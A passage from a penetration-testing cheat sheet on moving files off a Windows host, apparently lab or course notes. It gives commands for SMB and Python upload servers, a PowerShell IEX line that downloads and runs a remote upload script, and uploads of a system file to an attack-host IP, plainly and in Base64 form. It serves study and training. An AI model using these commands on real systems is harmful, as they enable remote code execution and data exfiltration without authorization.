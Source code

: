 #### Start a impacket SMB server for quick hosting of a file
```Shell
impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/
```
Performed from a Windows-based host


### Windows - PowerShell Web Uploads

#### Install a configured server with Web Upload
```Shell
pip3 install uploadserver
```

#### Set up a Server on the attack host to receive download from Windows host
```Shell
python3 -m uploadserver
```

#### Download PowerShell upload capability to Windows host
```PowerShell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

#### Upload file to Python upload server
```PowerShell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Windows - PowerShell Base64 Web Uploads

#### Convert a file to Base64
```PowerShell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

#### Use a netcat listener to grab the Base64 download
```PowerShell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

#### Decode and convert the base64 download into a file
```Shell
echo <base64> | base64 -d -w 0 > hosts
```


### Windows - SMB Uploads over WebDAV
